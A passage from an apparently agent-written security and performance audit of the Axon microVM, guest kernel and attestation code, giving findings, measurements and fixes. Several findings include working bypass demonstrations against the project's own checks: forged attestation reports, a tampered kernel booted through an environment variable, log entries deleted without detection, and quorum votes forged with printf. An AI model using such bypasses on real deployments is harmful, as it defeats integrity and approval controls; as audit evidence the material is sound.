3) signed w/ WRONG key   -> Ok(())
4) claims hw_root=sev-snp, junk sig -> Ok(())
5) try_admit_job(forged) -> Ok("axrec1:91e31b4c…")
```

So a one-byte signature verifies, a report signed with an attacker's key verifies, and a software-stand-in report that FALSELY CLAIMS `hw_root = "sev-snp"` (real hardware confidential computing) verifies and admits a job. The `SOFTWARE_TPM_HW_ROOT` honesty caveat is printed to stderr by the CLI but is not enforceable by any relying party, because nothing in `verify_report` looks at `hw_root`.

Compounding it: the signing key in `crates/axon-vm/src/main.rs:670-678` is `SHA256(b"axon-r26-software-tpm-ephemeral-key" || process::id().to_le_bytes())` — ~22 bits of entropy from a public value. Even if the HMAC were checked, it is trivially brute-forced.

The module header claims a chain "sign_report … → verify_report(…) → checks digest + axtcb1 + non-empty signature (fail-closed)". It is fail-closed only against accidental corruption, never against an adversary.

**Recommendation:** Recompute the HMAC in `verify_report` against a key the verifier holds (not one derived from the prover's PID), and make `hw_root` an explicit caller expectation that must match — a report claiming `sev-snp` must be rejected unless a real SEV-SNP cert chain verifies. Until then, rename these functions so they cannot be read as attestation (`content_digest_matches`), and make `AttestationReport` refuse to serialize a `hw_root` the producing substrate cannot actually back.

#### [CRITICAL] The guest syscall gate's ALLOW path triple-faults the VM; kernel_enforce_test's "permitted" case is vacuous and wired into nothing
*crates/axon-guest-kernel/src/enforce.rs* · kind: `kernel-security` · confidence: high

`crates/axon-guest-kernel/src/enforce.rs:295-323` (`run_program`) issues a real `syscall` ONLY on the deny branch. On the grant branch it prints "K5: policy GRANTS FS — open permitted" and halts without issuing anything. `scripts/kernel_enforce_test.sh` case 2 greps for exactly that print line and reports "✓ the gate PERMITTED the openat". It proves nothing.

I tested the real allow path: I copied the crate to scratch (no repo edits), changed only the grant branch to actually issue the same `syscall`, rebuilt, and booted under Firecracker with `{"allowed_effects":["IO","FS"]}`:

```
[axon-kernel] K5: policy GRANTS FS — AUDIT PROBE: actually issuing the syscall
--- (no further output) ---
[probe] firecracker EXITED (guest shut down / triple fault)
[fc_vcpu 0] Received KVM_EXIT_SHUTDOWN signal
Firecracker exiting successfully. exit_code=0
```

The "AUDIT PROBE: syscall RETURNED" line never prints. Cause is in `enforce::init` (lines 427-429): `STAR[63:48] = 0x20`, so `sysretq` loads CS=0x30 / SS=0x28 at CPL 3, but the boot GDT (`src/boot.s:132-138`) has only 5 entries (limit 0x27) and every PD entry is `0x83` (P|RW|PS — no U/S bit), so the first ring-3 instruction fetch #PFs with no IDT installed → triple fault.

Also note the handler itself (`syscall_entry`, lines 344-399) never *performs* any syscall — the "allowed" path just SYSRETs with rax=0. So even if SYSRET worked, `write` would return "0 bytes written" and `mmap` would return NULL. There is no syscall implementation behind the gate at all.

And `scripts/kernel_enforce_test.sh` — the script carrying the entire live-enforcement claim — is referenced by NOTHING: not gate.sh, not parity_all.sh (which globs only `scripts/*_parity.sh`), not integration_fixtures.rs, not CI.

**Recommendation:** Either build the ring-3 story properly (add user CS/SS GDT entries at the SYSRET-implied selectors, set U/S on the user pages, install an IDT, and actually dispatch the syscall) or delete the allow branch and rename the harness to `kernel_enforce_deny_test.sh` so the PASS line stops claiming "denies/permits by policy, live, end-to-end". Wire the script into `parity_all.sh` or a cargo test either way.

#### [CRITICAL] Guest policy parser fails OPEN to all 8 effects on every error path — including the default policy axon-vm run actually sends
*crates/axon-guest-kernel/src/mmds.rs* · kind: `kernel-security` · confidence: high

`crates/axon-guest-kernel/src/mmds.rs:257-282` (`json_array_effects`) returns `EffectSet(0xFF)` — every effect granted — when the field is absent, when it is not an array, or when the JSON did not decode. Same for `boot_params == 0`, a missing `axon.policy=`, and `POLICY_READY == false` (lines 53-55, 106-108, 159-165, 184-187). The static default is `EffectSet(0xFF)` too.

I booted the shipped kernel under Firecracker with a series of policies:

```
### policy: {"allowed_effects":["IO"]}
   enforce: gate active — 1 effect bit(s) allowed (0x1)     ← correct
### policy: {"allowed_effects":null}
   enforce: gate active — 8 effect bit(s) allowed (0xff)    ← ALL EFFECTS
### policy: {"allowed_effects":"Exec"}   (wrong JSON type)
   enforce: gate active — 8 effect bit(s) allowed (0xff)    ← ALL EFFECTS
### base64 with ONE character corrupted
   K2: policy 26 json bytes
   enforce: gate active — 8 effect bit(s) allowed (0xff)    ← ALL EFFECTS
```

The `null` case is not hypothetical — it is exactly what `axon-vm run` emits for any program without an `.axmeta` manifest and no `--principal`. I decoded the cmdline from a live run:

```
{"schema":"axon-vm-mmds/1","run_id":"vm-35106-16330","principal":null,
 "allowed_effects":null,"budget_tokens":null,"source_hash":"c9a4891…","seccomp_bpf_b64":null}
```

So the default `axon-vm run` grants the guest IO+FS+Net+AI+Exec+Random.

The parser is also non-structural (`find_subslice` over the raw bytes, first match wins). With `{"allowed_effects":["Exec","Net"],"allowed_effects":["IO"]}` Python's `json.loads` yields `['IO']` while the kernel reports `gate active — 2 effect bit(s) allowed (0x14)` (Exec|Net). Any producer/verifier pair that disagrees on duplicate-key or escaping semantics diverges from the enforcement point.

**Recommendation:** Invert every default: absent/unparseable/wrong-type policy must yield `EffectSet(0)` and refuse to run, not 0xFF. Make `axon-vm` refuse to launch when `allowed_effects` is None rather than serializing `null`. Replace the substring scan with a bounded structural scan that at minimum requires the key to be at object depth 1 and rejects duplicate keys.

#### [HIGH] axon-vm run reports ok:true for a guest that triple-faulted, and for a guest that hit a policy VIOLATION
*crates/axon-vm/src/main.rs* · kind: `attestation` · confidence: high

`crates/axon-vm/src/main.rs:1063-1067`: `"ok": result.is_ok()` where `result` is the *launcher's* `Result` (did we manage to drive the Firecracker API), and `"exit_code"` is Firecracker's own process exit code. The guest program's status is never propagated.

Run 1 — my triple-faulting probe kernel, which never executes the program at all:
```
{ "elapsed_ms": 176, "error": null, "exit_code": 0, "ok": true, ... }
```
Firecracker exits 0 on `KVM_EXIT_SHUTDOWN`, so a guest crash is indistinguishable from success.

Run 2 — the shipped kernel under an FS-withholding policy, i.e. the headline SandboxViolation case:
```
[guest] [axon-kernel] VIOLATION: syscall 257 blocked (FS not in policy)
[guest] [axon-kernel] HALTING: policy violation — exit code 8
[guest] [K-VIOLATION8
  "exit_code": 124,
  "ok": true,
```
A capability violation surfaces to the caller as `ok: true`. Two separate bugs meet here:
(a) `enforce.rs:253` writes a `\x1b[K-VIOLATION8` sentinel with the comment "so axon-vm can detect the exit code" — `grep -rn 'VIOLATION' crates/axon-vm/src/` finds no parser. It does not exist.
(b) `violation_exit`'s ACPI S5 poweroff (`outw(0x604, 0x2000)`, `outb(0x501,0)`) has no effect under Firecracker: the guest spun in HLT until `AXON_VM_TIMEOUT_SECS` killed it, hence 124. The advertised exit-8 SandboxViolation code is never produced by anything.

**Recommendation:** Parse the `-VIOLATION8` / `-PANIC` serial sentinels in `run_in_firecracker` and map them onto the documented exit codes; treat Firecracker exit 0 with no clean guest shutdown marker as a failure, not a success. Set `ok` from the guest outcome, not from launcher plumbing. Replace the ACPI S5 write with a shutdown mechanism Firecracker actually implements (i8042 reset via port 0x64, or a triple fault deliberately).

#### [HIGH] R26 "mandatory attestation before every boot" is TOFU against an unprotected file, bypassable by $HOME or one env var — tampered kernel boots
*crates/axon-vm/src/main.rs* · kind: `attestation` · confidence: high

`crates/axon-vm/src/main.rs:2221-2279` (`measure_and_attest_inner`) compares SHA-256 of the kernel against `$HOME/.axon/kernel_baseline.sha256`; if that file is absent it WRITES the current digest and returns Ok. None of `sign_report` / `verify_report` / `axtcb1` participate in the boot gate.

I appended `EVIL` to `dist/guest/vmlinuz` and ran three ways:

```
1) baseline present:
   [axon-vm] ATTESTATION FAILED: kernel digest mismatch   exit=10   ← works
2) same tampered kernel, HOME=/fresh/dir:
   [axon-vm] attestation: baseline established (156520d404bfa3ea)
   [guest] … PUT /boot-source … "kernel_image_path":"…/evil-vmlinuz"   ← BOOTED
3) same tampered kernel, AXON_CI_NO_KVM=1:
   [axon-vm] attestation: mock mode (AXON_CI_NO_KVM=1)               ← BOOTED
```

The baseline is a plain user-writable file with no integrity protection, so any attacker who can swap the kernel can `rm` the baseline. And `AXON_CI_NO_KVM=1` — an ordinary inherited env var, not a flag — silently disables the gate on a production host. `governance/REQUIREMENTS.md:72` states R26 as "✅ Landed … mandatory kernel attestation before every boot."

**Recommendation:** Require an explicitly pinned expected digest (CLI flag or a config the operator signs), never trust-on-first-use. Remove the `AXON_CI_NO_KVM` bypass from the boot path entirely and route CI through `--no-attest`, which at least logs a WARNING and could be compiled out of release builds. Feed the R31 `axtcb1_ext` through `verify_extended` here rather than a bare string compare.

#### [HIGH] R34 run chain does not detect deleted runs — I erased a run from the append-only log and it still verifies against the pinned genesis
*crates/axon-vm/src/chain.rs* · kind: `attestation` · confidence: high

`chain verify` (`crates/axon-vm/src/chain.rs:268-294`, `verify_entries`) only checks that each link's `prev_hash` matches its predecessor and that `entry_hash` recomputes. A hash chain alone catches modification-in-place; it cannot catch deletion unless the tip is pinned externally, and nothing pins it. `ChainStore::verify` returns `Ok(0)` for an empty file. `seq` is used only for error messages, never checked for contiguity.

Built a 3-run chain (run-a, run-evil, run-c), then attacked it with the R31 genesis pinned via `--genesis`:

```
pinned genesis = axtcb1-ext:4310675a5319552f0d04e68a78bf5f999e7bb070e67f09589b278111c8cf2940

ATTACK 1: delete the LAST run        -> CHAIN OK: 2 entries   exit=0
ATTACK 2: delete EVERY run           -> CHAIN OK: 0 entries   exit=0
ATTACK 3: erase 'evil', re-stamp c   -> CHAIN OK: 2 entries   exit=0
  chain now reads:  0 run-a   1 run-c
ATTACK 4: export the rewritten chain -> EXPORT OK: 2 entries  exit=0
```

The `run-evil` invocation is gone from the audit trail with zero detection, and the auditor-facing export path signs off on it too. Both `crates/axon-vm/src/main.rs:150-154` (CLI help) and `chain.rs:5-7` (module doc) assert "removing / substituting / reordering any run is detectable by `chain verify`". Removing is not.

**Recommendation:** Publish or externally anchor the tip (monotonic counter, sequence-number continuity check plus an operator-held or TPM-NV-backed head), and have `verify` take an expected head as well as an expected genesis. At minimum enforce `entry.seq == i` for all i so the log's own sequence numbers expose a gap, and correct the two doc strings that overclaim today.

#### [HIGH] R33 quorum votes are unsigned self-assertions — I forged a passing 3-of-3 quorum with printf
*crates/axon-vm/src/quorum/logic.rs* · kind: `attestation` · confidence: high

`VoteResponse` (`crates/axon-vm/src/quorum/logic.rs:44-59`) has no signature field, and `check_quorum` treats `voter_tcb` (the R31 extended-TCB identity) as data supplied by the voter. The vsock module (`quorum/vsock.rs:33-37`) is candid that it is a TCP-loopback stand-in, not AF_VSOCK, and there is no peer authentication on that path either.

Three hand-written files, no key material, no attestation:

```
$ for i in 1 2 3; do printf '{"voter_tcb":"axtcb1-ext:aaaa","run_id":"r1","approved":true,"reason":"ok","lineage_root":"peer-%d"}\n' $i > v$i.vote; done
$ axon-vm quorum check --responses-dir . --n 3
QUORUM MET: 3/3 approvals    exit=0
```

The R27 coalition ceiling is defeated by picking distinct `lineage_root` strings — also attacker-chosen. Since `axon deploy --quorum-dir DIR` gates Risk>=Critical deploys on exactly this, anyone with write access to that directory can self-approve any deployment.

Separately, `default_coalition_cap` = `ceil(N/2)-1` is 0 for N=1 and N=2, so small fleets can never reach quorum:
```
N=1: QUORUM BLOCKED: coalition cap: 3 YES vote(s) excluded (lineage-root cap=0)  exit=13
N=2: QUORUM BLOCKED: coalition cap: 3 YES vote(s) excluded (lineage-root cap=0)  exit=13
N=3: QUORUM MET: 3/3                                                             exit=0
```
REQUIREMENTS.md records the cap as verified at N=3/4/6; N=1 and N=2 were never covered.

**Recommendation:** Sign `VoteResponse` with a per-voter key bound to that voter's attested TCB and verify the signature inside `check_quorum` (or at the I/O boundary) before any vote is counted; bind the vote to the `VoteRequest`'s run_id + prog_hash so votes cannot be replayed. Special-case N<=2 in `default_coalition_cap` (cap >= 1) or document that quorum requires N>=3.

#### [HIGH] None of the kernel / microVM / attestation acceptance harnesses run in any automated gate
*scripts/gate.sh* · kind: `test-coverage` · confidence: high

Extending the already-established CI finding into this area specifically. `scripts/gate.sh` is 151 lines and invokes exactly two scripts (`vision_focus.sh`, `parity_all.sh`); `parity_all.sh:48` globs `scripts/*_parity.sh` only. Cross-referencing every kernel/VM harness against all callers:

```
qemu_boot_test           referenced by: crates/axon-core/tests/integration_fixtures.rs
timer_irq_qemu_test      referenced by: crates/axon-core/tests/integration_fixtures.rs
atomic_ir_test           referenced by: crates/axon-core/tests/integration_fixtures.rs
gdt_layout_ir_test       referenced by: crates/axon-core/tests/integration_fixtures.rs
kernel_enforce_test      referenced by: <NOTHING>
r33_acceptance_gate      referenced by: <NOTHING>
zephyr_qemu_gate         referenced by: <NOTHING>
fc_boot_test             referenced by: scripts/kernel_enforce_test.sh   (itself unreferenced)
r26_acceptance_gate      referenced by: scripts/axon_safety_gate.sh      (not in gate.sh)
r31_acceptance_gate      referenced by: scripts/r33_acceptance_gate.sh   (unreferenced)
r34_acceptance_gate      referenced by: scripts/r39_slice2_gate.sh
```

The four that do have a cargo-test caller treat SKIP as PASS (`integration_fixtures.rs:1690-1693`: "exit 0 = PASS, exit 1 = FAIL; the script prints SKIP: and exits 0 when tools are absent"), and both QEMU scripts prefer `target/debug/axon` — which the CLAUDE.md-documented fast build (`--no-default-features`) produces without codegen, silently converting both gates to SKIP. So the entire live-enforcement, attestation and quorum surface (R26/R31/R33/R34 plus the syscall gate) is verified only by a human choosing to run a script by hand.

**Recommendation:** Add a `scripts/kernel_all.sh` runner covering qemu_boot / timer_irq / atomic_ir / gdt_layout / kernel_enforce / r26 / r31 / r33 / r34 and call it from `gate.sh --strict`. Make SKIP distinguishable from PASS (exit 77) and fail the gate if a required tool is missing on a machine that is supposed to have it — this host has qemu, nasm, firecracker and /dev/kvm, so a SKIP here is a real gap, not an environment limit.

#### [MEDIUM] boot.s zeroes 4x the BSS (rep stosl with a byte count) — currently lands 4 KiB below the top of the stack
*crates/axon-guest-kernel/src/boot.s* · kind: `boot-correctness` · confidence: high

`crates/axon-guest-kernel/src/boot.s:70-74` computes `ECX = _bss_end - _bss_start` (a BYTE count) and then runs `rep stosl`, which stores ECX DWORDS. Confirmed in the shipped binary:

```
10004a: bf 00 50 20 00   mov    $0x205000,%edi     ; _bss_start
10004f: b9 00 a0 20 00   mov    $0x20a000,%ecx     ; _bss_end
100054: 29 f9            sub    %edi,%ecx          ; ecx = 0x5000 BYTES
100058: f3 ab            rep stos %eax,%es:(%rdi)  ; zeroes 0x5000 DWORDS = 0x14000 bytes
```

It zeroes 81920 bytes instead of 20480, ending at 0x219000. `_stack_bottom = 0x20A000`, `_stack_top = 0x21A000` (readelf: .bss at 0x205000 size 0x5000, linker.ld adds 0x10000 of stack), so the overrun happens to land inside the not-yet-used stack region — 4 KiB short of running past it. The safety margin is `3 * bss_size <= 0x10000`, i.e. BSS may grow only ~1365 more bytes before the clear writes past `_stack_top`. Note also that `_start32` has not set ESP at this point, so it is relying on the loader's stack for a routine that scribbles over the region the kernel stack will live in.

**Recommendation:** `shrl $2, %ecx` before `rep stosl` (or use `rep stosb`), and set ESP to `_stack_top` at the top of `_start32` before touching memory.

#### [MEDIUM] Kernel heap base is a hardcoded address that today equals _stack_top exactly — zero margin before the bump allocator aliases the live stack
*crates/axon-guest-kernel/src/bump.rs* · kind: `memory-layout` · confidence: high

`crates/axon-guest-kernel/src/bump.rs:17-18` hardcodes `HEAP_START = 0x21A_000` with a doc comment claiming the layout is `.bss` at 0x204000, `_stack_bottom` 0x209000, `_stack_top` 0x219000 and "heap starts immediately after this". The comment is already stale by a page: the real ELF has `.bss` at 0x205000 (size 0x5000), so `_stack_bottom = 0x20A000` and `_stack_top = 0x21A000` — exactly HEAP_START. There is no margin at all, and nothing links the constant to the linker symbol.

One more byte of `.text`, `.rodata`, `.data` or `.bss` pushes `_stack_top` above 0x21A000 and `bump::alloc()` starts handing out pointers inside the live kernel stack, silently. `alloc()` only checks the upper bound (`HEAP_END = 0xFF_FFFF`).

**Recommendation:** Export `_stack_top` from linker.ld as a symbol and derive `HEAP_START` from `&_stack_top` at runtime (`extern "C" { static _stack_top: u8; }`), or add a link-time assertion. Fix the stale address comment either way.

#### [MEDIUM] Guest kernel installs no IDT — every CPU fault is an undiagnosable triple fault, and the panic handler can never be reached from hardware
*crates/axon-guest-kernel/src/main.rs* · kind: `kernel-correctness` · confidence: high

`grep -rn 'lidt|IDT|idt' crates/axon-guest-kernel/src/` matches exactly one line, and it is a comment in `boot.s:176` explaining that a #UD "triple-faults (no IDT) → KVM_EXIT_SHUTDOWN". There is no `lidt`, no exception vectors, no #PF/#GP/#UD handler anywhere in the supervisor kernel. The `#[panic_handler]` in `main.rs:59-67` only catches Rust panics; a real fault never reaches it, so the `-PANIC` sentinel is unreachable from hardware faults.

I observed the consequence directly (see the SYSRET finding): the guest died with `Received KVM_EXIT_SHUTDOWN` and Firecracker exited 0 — no diagnostic, no fault address, no vector number, and the outer harness reported success. This is also why the 1 GiB identity map (below) is not merely cosmetic: any access above 1 GiB faults into the void.

Ironic contrast: `examples/kernel/hello_kernel_timer_irq.ax` — the Axon-language demo — builds a full 256-entry IDT, remaps the PIC, and handles a real timer IRQ (I ran it: 193 ticks, 0 trap markers). The Rust supervisor kernel that carries the actual security claim has none of that.

**Recommendation:** Install a minimal IDT with handlers for at least #DE/#UD/#GP/#PF/#DF that print vector, error code, CR2 and RIP to COM1 and then power off with a distinct sentinel. Without it, every kernel bug in this crate is a silent VM disappearance.

#### [MEDIUM] The SMP example's shared counter address is the kernel's own multiboot header — the example is IR-checked only and would corrupt itself if booted
*examples/kernel/hello_kernel_slice2.ax* · kind: `smp` · confidence: high

`examples/kernel/hello_kernel_slice2.ax:23` sets `COUNTER_ADDR = 0x100000` with the comment "A shared counter sits at a fixed physical address (set up by the SMP trampoline)". But `scripts/kernel.ld:15` places `.text` at `. = 0x100000` with `KEEP(*(.text.entry))` first, and `boot_stub.asm`'s multiboot header is the first thing in `.text.entry`. I linked it:

```
$ nm -n k.elf | head
0000000000100000 t mb1_header
0000000000100020 T _start
```

So `counter_reset()` stores 0 over the multiboot magic and `core_worker(1000)` does 1000 `atomicrmw add` into the kernel's own text. Boot-stub pages are mapped `0x83` (P|RW|PS), so there is no fault — it just silently corrupts the image.

This is invisible to `scripts/atomic_ir_test.sh`, which only greps the emitted LLVM IR for `atomicrmw … seq_cst` and never links or boots. It is precisely the class of defect the deferred "2-core QEMU SMP harness" would catch on the first run, and it mirrors the golden-IR shape-vs-content gap that previously hid the @[packed] narrow-store bug.

**Recommendation:** Move `COUNTER_ADDR` to a reserved address outside the loaded image (e.g. 0x300000, the same convention `hello_kernel_timer_irq.ax` uses for its IDT) and add a comment tying it to the linker layout. Longer term, build the 2-core harness — the golden-IR proxy provably cannot see this class of bug.

#### [MEDIUM] Guest kernel target spec hardcodes an absolute /home/cklaus path — the kernel cannot be built on any other machine
*crates/axon-guest-kernel/targets/x86_64-axon-metal.json* · kind: `build-reproducibility` · confidence: high

`crates/axon-guest-kernel/targets/x86_64-axon-metal.json:18` (git-tracked):

```json
"pre-link-args": {
  "ld.lld": ["-T/home/cklaus/projects/axon/crates/axon-guest-kernel/linker.ld"]
}
```

I had to rewrite this path to build the crate in a scratch directory. Any CI runner, any other developer, and any checkout at a different path fails to link — which is one concrete reason the whole R26/R17 microVM surface has never been exercised outside this host, and reinforces the "harnesses skip cleanly" pattern above (`kernel_enforce_test.sh` exits 0 with "kernel not built — skipping" whenever the target dir is absent).

**Recommendation:** Drop `pre-link-args` from the target JSON and pass `-C link-arg=-T$(pwd)/crates/axon-guest-kernel/linker.ld` from `build.rs` (which already emits `cargo:rustc-link-arg`) using `CARGO_MANIFEST_DIR`.

#### [MEDIUM] The guest's violation audit ring buffer is write-only — nothing ever reads or exports it
*crates/axon-guest-kernel/src/enforce.rs* · kind: `observability` · confidence: high

`crates/axon-guest-kernel/src/enforce.rs:35-45` declares a 4 KiB `AUDIT_BUF` ring and `audit_write_bytes`/`audit_write_u64` append a `VIOLATION syscall=N effect=X` record on every denial (lines 222-226). Grepping the whole crate for `AUDIT_BUF` / `AUDIT_HEAD` finds only the writer — no reader, no serial dump, no hypercall export, no vsock frame. The only evidence a violation ever happened is the `kprintln!` on the serial console, which (per the earlier finding) `axon-vm` does not parse.

The wrap arithmetic is also fine but pointless: `AUDIT_HEAD` grows unbounded with `wrapping_add` and every read would need it, but there is no read.

**Recommendation:** Either dump the buffer over COM1 (or a VMCALL) at `violation_exit` so the host can persist it into the R28 capability audit ledger, or delete it so the code does not imply telemetry that does not exist.

#### [LOW] boot.s claims a 4 GiB identity map but only maps 1 GiB; MMIO/APIC space is unmapped with no IDT to catch the fault
*crates/axon-guest-kernel/src/boot.s* · kind: `memory-layout` · confidence: high

`crates/axon-guest-kernel/src/boot.s:76` comments "Build identity page tables (4 GiB, 2 MiB huge pages)" but only `PDPT[0]` is populated (lines 89-92) and the PD loop fills 512 x 2 MiB = 1 GiB (lines 94-105). Everything at or above 0x40000000 is unmapped: the Local APIC at 0xFEE00000, the IOAPIC at 0xFEC00000, PCI ECAM, and any guest RAM when `axon-vm run --mem-mib` exceeds 1024. Combined with the missing IDT, the first such access is a silent triple fault.

Today nothing in the kernel touches those addresses, so it is latent — but it blocks the SMP work the kernel's own docs anticipate (bringing up APs needs the APIC), and the comment actively misleads whoever tries.

**Recommendation:** Either populate PDPT[0..3] for a real 4 GiB map, or fix the comment to say 1 GiB and add a bounds note about MMIO. If the SMP path is planned, do the former.

#### [LOW] "hypercall substrate active" is printed by a TODO stub and scored as a PASS check by fc_boot_test.sh
*crates/axon-guest-kernel/src/hypercall.rs* · kind: `vacuous-test` · confidence: high

`crates/axon-guest-kernel/src/hypercall.rs:10-13`:
```rust
pub fn init() {
    // TODO (K4 agent): set up VMCALL dispatch table.
    // Stub: nothing to do yet.
}
```
`main.rs:46-47` calls it and prints `[axon-kernel] hypercall substrate active`, and `scripts/fc_boot_test.sh` checks for exactly that string and counts it toward its "RESULT: PASS (10/10 checks)". `vmcall_await` (lines 26-47) has no callers anywhere in the workspace, and `grep -rn 'hypercall|VMCALL|KVM_EXIT' crates/axon-vm/src/main.rs` finds no host-side handler — Firecracker does not surface `KVM_EXIT_HYPERCALL` to the VMM anyway.

Separately, `fc_boot_test.sh:139-146` breaks out of its wait loop 0.2 s after the string "ready" appears — but every interesting line (K4/K5/VIOLATION) is emitted *after* "ready", so all post-ready assertions, including `kernel_enforce_test.sh`'s VIOLATION check, race a 200 ms window.

**Recommendation:** Do not print "active" for a stub — print "hypercall substrate: not implemented" or drop the line, and remove the check from fc_boot_test.sh. Change the harness's wait condition to the guest's terminal marker (`-VIOLATION8` / `-PANIC` / clean poweroff) rather than "ready" + a fixed sleep.

#### [LOW] axon-vm attest accepts --nonce and silently discards it; no freshness binding and no `axon-vm verify` subcommand as the R26 spec requires
*crates/axon-vm/src/main.rs* · kind: `attestation` · confidence: high

`crates/axon-vm/src/main.rs:628` names the parameter `_nonce`. The CLI help advertises "Nonce for freshness (anti-replay in real deployments)" and `AttestationReport` has no nonce field at all. Two runs against the same kernel with different nonces:

```
$ axon-vm attest --kernel …/axon-guest-kernel --nonce AAAAAAAA > n1.json
$ axon-vm attest --kernel …/axon-guest-kernel --nonce BBBBBBBB > n2.json
$ diff <(grep -v signature n1.json) <(grep -v signature n2.json)
IDENTICAL — nonce not bound into report
```
(The signatures differ only because the key is derived from the PID.)

`governance/specs/R26-confidential-microvm-substrate.md:392-393` mandates step 2 "**Freshness.** `report.nonce == nonce` (anti-replay; a recorded old report is refused) → else `AttestFail{"stale nonce"}`", and §5 lists `axon-vm verify <report.json> --expect-meas M --expect-axtcb T --nonce N`. Neither exists: `axon-vm --help` shows only run/principal/chain/quorum/attest, so there is no path that consumes an externally supplied report — the only "verification" is re-measuring a local file. `--policy` is likewise `_policy`, ignored.

**Recommendation:** Either implement the spec (add `nonce` to `AttestationReport`, bind it into the signed data, add an `axon-vm verify` that consumes a report file) or remove `--nonce`/`--policy` from the CLI so operators cannot believe replay protection is on.

### Low-level performance — 9 findings (0C/3H/4M/2L)
> **Verdict:** Native codegen is genuinely fast (140-225x over the interpreter, ~2-4x off clang -O2 despite running zero IR optimization passes), but the interpreter — the default engine for run/goal/test — is quadratic on every array operation and ~12x slower than CPython per call; the project's headline "6.0x native speedup" acceptance number measures process startup on do-nothing programs and is off by ~30x in the wrong direction.
>
> Method: built `target/release/axon` (codegen default, 35s) so both engines are optimized, plus the documented fast interp build. Timed min-of-N wall clock via python perf_counter, cross-checked against `/usr/bin/time` and in-process timers. Attributed allocations with a custom LD_PRELOAD malloc-counting shim (built at scratchpad/mallocount.c) run over differential .ax programs (N vs 2N iterations, 0 vs 1 vs 2 params) so every allocation count below is a measured delta, not a code read. Dumped generated IR with `axon build --emit-llvm --release`. perf(1) is unavailable on this WSL2 kernel, so profiling is by differential microbenchmark rather than sampling.
> 
> Headline measurements (release axon, this host):
>   fib(30):        native 3.77ms | interp 848ms   (225x)   | CPython 3.12 in-process 48.9ms
>   20M-iter loop:  native 29.2ms | interp 4166ms  (143x)
>   noop:           native 0.64ms | interp 5.44ms  (8.6x)  <-- this 8.6x IS the project's "6.0x"
>   16k array scan: native 0.90ms | interp 1292ms  (1400x, and growing — it is O(N^2))
> 
> NOTE — cleanup I could not perform: I copied five scratch .ax files into the repo root while testing `axon build`'s cwd dependence (`noop.ax`, `fib.ax`, `loop.ax`, `arr16000.ax`, `_fibbench.ax`). The permission system denied every `rm` I attempted. They are untracked; please delete them. No tracked file was modified.

#### [HIGH] Array indexing is O(N) — every array read deep-clones the whole array, making all iteration quadratic
*crates/axon-core/src/interp/eval.rs:451* · kind: `algorithmic-complexity` · confidence: high

`Expr::Index` (crates/axon-core/src/interp/eval.rs:451) does `let arr = self.eval(receiver, env)?`, and for an `Expr::Ident` receiver the Ident arm (eval.rs:56-62) returns `v.clone()`. `Value::Array(Vec<Value>)` clones element-wise, so `xs[j]` copies the entire array to read one element.

Measured scan of `arr_range(0,N)` summing `xs[j]` in a while loop (release interp):
  N=2000    27.3 ms
  N=4000    87.3 ms
  N=8000   327.0 ms
  N=16000 1292.5 ms
Perfect x4-per-doubling. The same N=16000 program compiled with `axon build --release` runs in 0.90 ms — a 1400x gap that widens with N.

This is not avoidable by using idiomatic syntax. `for x in xs` desugars in parser.rs:1774-1809 to `__forarr_N[__fori_N]` — the same Index-on-Ident node. Measured: for-in N=8000 = 333.1ms, N=16000 = 1285.0ms (also x3.9). There is no non-quadratic way to iterate an array in the interpreter.

`arr_push` is the same story twice over: the arg-eval clone plus `Value::Array(v) => v.clone()` at interp/builtins.rs:764. Building a list by appending:
  N=2000    35.1 ms
  N=4000   100.0 ms
  N=8000   370.9 ms
  N=16000 1442.8 ms
Building a 16k-element list takes 1.4 seconds.

Strings are fine (linear — `s = "{s}x"` 16k times is 13.8ms), so this is specifically the Value::Array representation. Dicts are Rc<RefCell<..>> and escape it too. Arrays are the outlier.

**Recommendation:** Two options, both localized. (a) Cheap and surgical: special-case `Expr::Index { receiver: Expr::Ident(n), .. }` in eval.rs:451 to look the binding up with `env.get(n)` and clone only the selected element — this alone fixes indexing, for-in, and most scans. (b) Structural and better: change `Value::Array(Vec<Value>)` to `Value::Array(Rc<RefCell<Vec<Value>>>)`, matching what `Dict` and `Chan` already do; then Ident-clone becomes a refcount bump and `arr_push` can mutate in place. Add a scaling regression test (time N and 2N, assert ratio < 3) so the quadratic cannot silently return.

#### [HIGH] The R1 acceptance benchmark "native is 6.0x faster" measures process startup, not compute — real speedup is 140-225x
*scripts/perf_bench.sh:47* · kind: `benchmark-methodology` · confidence: high

governance/REQUIREMENTS.md R1 cites `scripts/perf_bench.sh` as the Tier-1 perf evidence: "native AOT is 6.0x faster than the interpreter across 9 pure-compute programs". I ran it: it now reports 6.9x. The number is an artifact of three compounding method errors.

1. The corpus is not compute-bound. `CORPUS=( hello.ax math.ax while.ax algorithms.ax modulo.ax logical_ops.ax floats.ax comprehensive.ax algorithms.ax )`. `hello.ax` is one string interpolation and a println. `math.ax` is `add(3,4)` then `square(7)`. Every one finishes in microseconds. The script times whole-process wall clock, so it is measuring `axon run`'s startup (binary load + parse + resolve + infer + check + interp setup) against a native binary's `exec`.
2. Proof: my own noop.ax (`fn main() -> i64 { 0 }`) measures native 0.64ms vs release-interp 5.44ms = 8.6x. That is the entire reported effect, on a program that does literally nothing.
3. It uses the DEBUG interpreter (`AXON="$ROOT/target/debug/axon"`) and the DEBUG native path (`OptimizationLevel::None`, link.rs:419-421). The debug interpreter is 8-10x slower than release (fib(30): 8587ms vs 848ms; loop: 32008ms vs 4166ms), so the ratio isn't even reproducible against a release build.

Real compute-bound numbers, both engines optimized:
  fib(30)  native 3.77ms vs interp 848ms  = 225x
  20M loop native 29.2ms vs interp 4166ms = 143x

So the acceptance criterion understates its own compiler by ~25x while simultaneously being a number that no compute program produces. It also never re-runs: `grep -n perf_bench scripts/gate.sh .github/workflows/*.yml` returns nothing — perf_bench.sh is invoked by neither CI nor the gate.

Separately, the script's own inline comment is stale: "`axon build --release` currently fails with duplicate-std-symbol link errors (BUG_HUNT #38)". I ran `axon build --release` on three programs — it works (the `-Wl,--allow-multiple-definition` fix at link.rs:355 landed), and REQUIREMENTS.md even says "#43 FIXED" two sentences after quoting the 6.0x. The benchmark is still pinned to the unoptimized path because of the stale comment.

**Recommendation:** Replace the corpus with programs whose runtime is dominated by compute (>=200ms interpreted), benchmark `target/release/axon` against `axon build --release`, and subtract or separately report the fixed startup cost. Then wire perf_bench.sh into gate.sh with a floor assertion so the number is defended. Update the REQUIREMENTS.md R1 row and drop the stale BUG_HUNT #38 comment.

#### [HIGH] 7 heap allocations per interpreted function call — 4 of them for a zero-argument call, one for an unused `goal_met` binding
